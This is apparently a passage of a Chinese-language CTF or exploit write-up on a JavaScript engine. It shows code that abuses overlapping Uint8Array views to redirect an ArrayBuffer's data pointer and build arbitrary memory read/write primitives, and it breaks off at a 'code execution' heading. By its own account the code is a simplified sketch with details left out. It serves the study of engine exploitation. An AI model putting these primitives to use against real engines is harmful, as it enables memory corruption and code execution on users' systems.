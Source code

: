 ![](https://raw.githubusercontent.com/4ak5ra/image/main/20250516000513932.png)
```javascript
leaker = new Uint8Array(buf[7]);
aa = new Uint8Array(buf[6]);

leak = aa.slice(0x50,0x58); // 该地址为整个buf的起始地址,也就是ArrayBuffer的地址
group = aa.slice(0x40,0x48); // 当前buf[7]的起始地址
slots = aa.slice(0x40,0x48);  //读的内容要转换一下大小端序，然后处理一下数据，作者通过LS和reverse函数完成了，这里就不展示这些和去掉tag等内存层面的细节了，只展示逻辑层面的实现

add(leak,new data("0x38")       //ArrayBuffer对象中Uint8Array属性的地址

for (var i=0;i<leak.length;i++)   
  aa[0x40+i] = leak[i]              //利用aa修改buf7的数据指针为Uint8Array的地址


sub(leak,new data("0x10"))    //ArrayBuffer的地址

changer = new Uint8Array(buf[7])  //以修改后的buf创建一个新视图,此时它的数据缓冲区将指向一个Uint8Array,也就是本来的leaker


function write(addr,value){
    for (var i=0;i<8;i++)
      changer[i]=addr[i]   //这个新的视图把要写入的地址覆盖到原buf7的数据段
    value.reverse()
    for (var i=0;i<8;i++)
      leaker[i]=value[i]   //然后用原本的leaker来访问刚刚覆盖的地址并向该地址写入数据
}

function read(addr){
    for (var i=0;i<8;i++)
      changer[i]=addr[i]
    return leaker.slice(0,8)   //同理
}

function read_n(addr, n){
    write(leak,n)
    for (var i=0;i<8;i++)
      changer[i]=addr[i]
    return leaker      //写入数据后返回leaker的地址,也就是写入了数据空间的地址
}
//基地址+偏移,访问此时对象的地址
sub(group,new data("0x40")) // this now points to the group member
sub(slots,new data("0x30")) // this now points to the slots member



```
## **代码执行**
